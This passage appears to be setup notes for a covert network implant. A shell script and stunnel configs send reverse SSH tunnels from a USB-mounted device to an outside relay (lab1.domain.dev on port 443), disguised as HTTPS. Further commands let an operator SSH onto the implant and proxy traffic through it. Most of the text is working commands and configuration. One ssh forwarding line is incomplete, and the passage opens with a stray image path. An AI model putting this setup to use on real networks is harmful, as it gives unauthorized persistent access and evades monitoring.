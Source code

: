 Command: `ln -s /mnt/sda/etc/stunnel /etc/stunnel`

<u>SSH Script:</u>

Location: `/mnt/sda/start_sshproxy.sh`

```bash
#!/bin/sh

$USB/usr/bin/stunnel

ssh -N -f -p 2223 root@localhost -R 8081:localhost:22
ssh -N -f -p 2223 root@localhost -R 8081
```


<u>Stunnel config (server):</u>

```
output  = /var/log/stunnel4/stunnel.log
cert    = /etc/stunnel/stunnel.pem
key             = /etc/stunnel/stunnel.pem
pid             = /var/run/stunnel4/stunnel.pid

[ssh]
client = no
accept  = 443
connect = 127.0.0.1:22
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

<u>Stunnel config (pc):</u>

```
output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
client=yes

[ssh]
accept = 2223
connect = lab1.domain.dev:443
```

SSH Commands:

```
ssh -N -f -p 2223 root@localhost -L 8082:localhost:8081 # To ssh onto implant ssh -p 8082 root@localhost
ssh -N -f -p 2223 root@localhost -L 1081:localhost:1080 # So we can proxy everything might not be needed but I don't care right now
```

Refer to proxychains config and example programs below

------
#### SSH Proxy:
